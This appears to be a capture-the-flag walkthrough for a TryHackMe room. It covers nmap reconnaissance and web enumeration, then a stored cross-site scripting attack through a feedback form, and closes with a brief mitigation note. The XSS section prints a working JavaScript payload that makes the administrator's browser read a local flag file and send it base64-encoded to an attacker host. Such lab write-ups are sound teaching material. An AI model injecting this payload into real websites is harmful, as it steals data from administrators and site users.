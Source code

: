 # THM | thestickershop

**Disclaimer:** The tools and techniques demonstrated are for educational purposes only. Never test any system without explicit written consent of the owner.

**Link:** [THM - thestickershop](https://tryhackme.com/r/room/thestickershop)

The challenge is to read the flag at `http://10.10.34.74:8080/flag.txt`

![flag.txt 401 error](img/FlagUnauthorized.png)

# Reconnaissance

```bash
export IP="10.10.34.74"
```

## Host Discovery and Port Scanning

Confirm that the host is online and accessible:
```bash
ping -c 1 $IP

PING 10.10.34.74 (10.10.34.74) 56(84) bytes of data.
64 bytes from 10.10.34.74: icmp_seq=1 ttl=64 time=0.884 ms
```

The `ttl=64` is an early indication the OS is likely Linux. Next, identify open TCP ports:
```bash
sudo nmap -vv -n -sS -p- $IP

Not shown: 65533 closed ports
Reason: 65533 resets
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 64
8080/tcp open  http-proxy syn-ack ttl 64
```

## Service Enumeration

```bash
sudo nmap -vv -n -sV -sC -p $PORTS $IP

PORT     STATE SERVICE    REASON         VERSION                                                      
22/tcp   open  ssh        syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0) 
8080/tcp open  http-proxy syn-ack ttl 64 Werkzeug/3.0.1 Python/3.8.10
```


# Web Enumeration and XSS

Through manual enumeration and directory brute forcing with `gobuster`, the below paths are found:

```
/
/submit_feedback
/view_feedback
```

![view_feedback 401 error](img/ViewFeedback.png)

Viewing feedback appears to be restricted to authorised users, however it is possible to submit feedback:

![submit_feedback](img/FeedbackSubmitted.png)

Using a XSS payload to trick the administrator's web browser into getting the flag and sending it to the attacker machine:
```javascript
<script>const url = "http://127.0.0.1:8080/flag.txt"; fetch(url).then(response => response.text()).then(data => { const content = data; fetch('http://10.10.107.77:443/s?c=' + btoa(content)); });</script>
```

Leading to retrieval of the flag: 

![XSS CallBack](img/XSSCallBack.png)

![Decoding the flag](img/DecodingFlag.png)

This is the only flag to collect in the challenge.


# Mitigations

The vulnerability in the feedback submission form is the absence of input sanitisation. Including a library with functions to safely sanitise HTML input would mitigate this attack vector.
